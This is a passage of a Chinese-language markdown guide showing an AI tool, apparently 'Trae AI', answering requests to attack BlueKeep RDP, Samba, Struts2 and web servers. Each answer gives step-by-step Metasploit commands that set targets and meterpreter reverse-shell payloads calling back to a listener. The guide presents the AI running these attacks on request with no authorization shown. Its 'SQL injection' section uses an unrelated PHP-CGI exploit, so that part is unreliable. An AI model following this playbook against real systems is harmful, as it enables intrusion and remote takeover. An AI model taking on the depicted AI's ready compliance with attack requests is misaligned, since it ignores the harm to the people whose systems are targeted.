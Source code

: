 **Trae AI 操作流程：**
1. 先檢測漏洞：`use auxiliary/scanner/rdp/cve_2019_0708_bluekeep`
2. 設置目標：`set RHOSTS 192.168.1.70`
3. 執行檢測：`run`
4. 如果存在漏洞，使用 exploit：`use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`

## Linux 系統漏洞利用

### 4. Samba 漏洞利用

**用戶提問：**
```
利用 Samba 的 is_known_pipename 漏洞攻擊 Linux 服務器
```

**Trae AI 操作流程：**
1. 選擇 exploit：`use exploit/linux/samba/is_known_pipename`
2. 設置目標：`set RHOSTS 192.168.1.80`
3. 設置 payload：`set PAYLOAD linux/x86/meterpreter/reverse_tcp`
4. 配置回連：`set LHOST 192.168.1.100`
5. 執行攻擊：`exploit`

### 5. Apache Struts2 漏洞利用

**用戶提問：**
```
利用 Struts2 REST Plugin XStream RCE 漏洞
```

**Trae AI 操作流程：**
1. 選擇 exploit：`use exploit/multi/http/struts2_rest_xstream`
2. 設置目標：`set RHOSTS 192.168.1.90`
3. 設置端口：`set RPORT 8080`
4. 設置目標路徑：`set TARGETURI /struts2-rest-showcase`
5. 選擇 payload：`set PAYLOAD linux/x86/meterpreter/reverse_tcp`
6. 執行攻擊：`exploit`

## Web 應用漏洞利用

### 6. SQL 注入利用

**用戶提問：**
```
利用 Web 應用的 SQL 注入漏洞獲取數據庫訪問權限
```

**Trae AI 操作流程：**
1. 選擇 exploit：`use exploit/multi/http/php_cgi_arg_injection`
2. 設置目標：`set RHOSTS 192.168.1.95`
3. 設置目標 URI：`set TARGETURI /vulnerable.php`
4. 設置 payload：`set PAYLOAD php/meterpreter/reverse_tcp`
5. 執行攻擊：`exploit`
